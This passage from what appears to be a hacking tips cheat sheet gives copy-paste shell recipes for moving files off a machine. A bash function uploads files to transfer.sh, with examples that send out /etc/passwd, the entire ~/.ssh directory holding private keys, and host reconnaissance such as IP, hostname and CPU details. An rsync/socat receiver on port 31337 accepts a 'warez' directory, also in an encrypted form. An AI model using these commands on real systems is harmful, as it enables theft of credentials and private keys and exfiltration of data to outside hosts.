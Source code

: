 <a id="trans"></a>
### 4.vii. File transfer using a public dump

Cut & paste into your bash:
```sh
transfer() {
    [[ $# -eq 0 ]] && { echo -e >&2 "Usage:\n    transfer [file/directory]\n    transfer [name] <FILENAME"; return 255; }
    [[ ! -t 0 ]] && { curl -SsfL --progress-bar -T "-" "https://transfer.sh/${1}"; return; }
    [[ ! -e "$1" ]] && { echo -e >&2 "Not found: $1"; return 255; }
    [[ -d "$1" ]] && { (cd "${1}/.."; tar cfz - "${1##*/}")|curl -SsfL --progress-bar -T "-" "https://transfer.sh/${1##*/}.tar.gz"; return; }
    curl -SsfL --progress-bar -T "$1" "https://transfer.sh/${1##*/}"
}
```

then upload a file or a directory:
```sh
transfer /etc/passwd  # A single file
transfer ~/.ssh       # An entire directory
(curl ipinfo.io; hostname; uname -a; cat /proc/cpuinfo) | transfer "$(hostname)"
```
A list of our [favorite public upload sites](#cloudexfil).

---
<a id="rsync"></a>
### 4.viii. File transfer - using rsync

Ideal for synchonizing large amount of directories or re-starting broken transfers. The example transfers the directory '*warez*' to the Receiver using a single TCP connection from the Sender to the Receiver.

Receiver:
```posh
echo -e "[up]\npath=upload\nread only=false\nuid=$(id -u)\ngid=$(id -g)" >r.conf
mkdir upload
rsync --daemon --port=31337 --config=r.conf --no-detach
```

Sender:
```posh
rsync -av warez rsync://1.2.3.4:31337/up
```

The same encrypted (OpenSSL):

Receiver:
```posh
# use rsa:2048 if ed25519 is not supported (e.g. rsync connection error)
openssl req -subj '/CN=example.com/O=EL/C=XX' -new -newkey ed25519 -days 14 -nodes -x509 -keyout ssl.key -out ssl.crt
cat ssl.key ssl.crt >ssl.pem
rm -f ssl.key ssl.crt
mkdir upload
cat ssl.pem
socat OPENSSL-LISTEN:31337,reuseaddr,fork,cert=ssl.pem,cafile=ssl.pem EXEC:"rsync --server -logtprR --safe-links --partial upload"
```
